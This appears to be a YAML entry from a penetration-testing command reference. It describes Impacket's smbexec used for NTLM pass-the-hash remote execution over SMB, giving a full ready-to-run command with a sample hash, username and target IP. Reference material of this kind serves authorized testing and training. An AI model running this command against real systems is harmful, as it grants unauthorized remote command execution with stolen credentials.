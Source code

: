 ```yaml
---
description: Execute commands remotely over SMB using Impacket's smbexec with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-smbexec -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 john@10.10.10.1

items:
  - Hash
  - Shell
  - PowerShell

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation

references:
  - https://github.com/fortra/impacket
  - https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
---
```

